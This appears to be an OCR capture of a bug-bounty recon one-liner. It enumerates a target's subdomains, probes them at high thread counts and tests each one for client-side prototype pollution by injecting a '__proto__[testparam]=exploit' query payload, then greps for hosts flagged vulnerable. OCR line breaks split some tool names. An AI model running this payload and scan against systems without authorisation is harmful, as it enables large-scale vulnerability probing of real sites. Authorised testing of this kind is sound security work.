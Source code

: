subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q 
FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-
fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]" '
| sed "s/(//g" | sed "s/)//g"  | sed "s/JS //g" | grep "VULNERABLE"
